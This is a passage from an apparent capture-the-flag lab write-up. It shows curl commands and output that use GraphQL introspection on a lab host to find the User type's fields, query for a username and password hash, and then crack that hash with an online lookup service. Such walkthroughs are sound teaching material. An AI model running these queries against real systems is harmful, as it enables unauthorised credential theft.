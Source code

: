 

I'll get the fields asscoaited with the User type:



    root@kali# curl -s 10.10.10.121:3000/graphql -H "Content-Type: application/json" -d '{ "query": "{ __type(name: \"User\") { name fields { name } } }" }' | jq .
    {
      "data": {
        "__type": {
          "name": "User",
          "fields": [
            {
              "name": "username"
            },
            {
              "name": "password"
            }
          ]
        }
      }
    }



I'll try to get the values



    root@kali# curl -s 10.10.10.121:3000/graphql -H "Content-Type: application/json" -d '{ "query": "{ User { username password } }" }' | jq  -c .
    {"errors":[{"message":"Cannot query field \"User\" on type \"Query\". Did you mean \"user\"?","locations":[{"line":1,"column":3}]}]}



Not sure why that returned error, but it offered a suggestion:



    root@kali# curl -s 10.10.10.121:3000/graphql -H "Content-Type: application/json" -d '{ "query": "{ user { username password } }" }' | jq .
    {
      "data": {
        "user": {
          "username": "helpme@helpme.com",
          "password": "5d3c93182bb20f07b994a7f617e99cff"
        }
      }
    }



That's clearly a hash, and [crackstation.net](https://crackstation.net/)
breaks it instantly:

![](/img/1548503757698.png)
